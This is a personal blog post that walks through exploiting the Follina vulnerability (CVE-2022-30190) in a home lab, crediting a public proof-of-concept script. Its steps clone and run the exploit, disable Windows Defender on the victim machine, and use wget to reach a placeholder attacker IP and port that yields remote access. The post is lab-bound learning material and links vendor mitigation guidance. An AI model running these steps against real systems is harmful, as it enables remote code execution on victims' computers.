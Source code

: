 ```yaml
---
title:  "Zero-Day CVE-2022-30190 MS-MSDT Follina"
excerpt: "In this post I will show you the MS-MSDT Follina vulnerability (CVE-2022-30190)."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . Exploit in Action!
<br>
4 . Mitigations
<br>
---

## This post is designed to teach you how to exploit the MS-MSDT Follina vulnerability!

---

### 1. Introduction

*I want to give thanks and credit to **John Hammond** and his work with the Huntress team identifying and showing exactly how this vulnerability can be exploited! Check out his [Youtube](https://www.youtube.com/watch?v=dGCOhORNKRk&ab_channel=JohnHammond) or the Huntress [blog](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug).*

- At the bottom of this blog post I have a short GIF showing the exploit in action.

- CVE-2022-30190 is a vulnerability that has been announced and unpatched for the past 2 days as of writing this article.

- The vulnerability takes advantage of the Microsoft Diagnostics Tool (MSDT) and other Microsoft utilities. 

- Basically, the attacker can send you a seemingly harmless word document, however, once you open the document (or even preview pane) the malicious remote code execution happens and the attacker has just infected your computer with a virus, a command and control access point, crypto coin miner, backdoor, etc. 

---

### 2. My Setup

For my attack computer, I ran kali Linux in VMWare Workstation 16 player using NAT and HOST virtualized ethernet adapters. [Kali](https://www.kali.org/get-kali/#kali-virtual-machines)

I ran my victim computer on an evaluation Windows 11 virtualized machine in VMWare Workstation 16 player using a HOST-Only virtualized ethernet adapter. [Windows 11 Evaluation](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)

---

### 3. Exploit in Action!

John Hammond made the exploit accessible via his GitHub [here](https://github.com/JohnHammond/msdt-follina) as a simple python script that creates the malicious file, opens a listener, and hosts the malicious file.

**Before starting the exploit:**

You may have malware protection and defender services for your endpoint hosting these Virtual Machines. It may stop your virtual machines from transferring and running the python script. Therefore, at your discretion, you may need to turn off these services to see the functional exploit. 

*Proceed at your own risk*

**On Attack Device**


    #Step 1: 

    git clone https://github.com/JohnHammond/msdt-follina.git

    #Step 2:
    python3 Follina.py -r <port number of choice>

**On victim**

    #Step 3: Disable Windows Defender Real-Time Protection
![realtime](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/real-time.PNG)

    #Step 4: Open Powershell

    #Step 5:
    wget <attackerIP>:<port chosen in step 2>

You should have seen the Microsoft Diagnostics Tool load, and then you received connection at your listener on the attacking computer. 

**Thats it! You are in!**

![gif](https://github.com/matthewomccorkle/matthewomccorkle.github.io/blob/a6f21de03fffc6c24b07f22c5f507cfe2e364aa4/_posts/assets/follina.gif?raw=true)

### 4. Mitigations

See the current response from [Microsoft](https://msrc-blog.microsoft.com/2022/05/30/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/) on how to mitigate the issue until a patch is released. 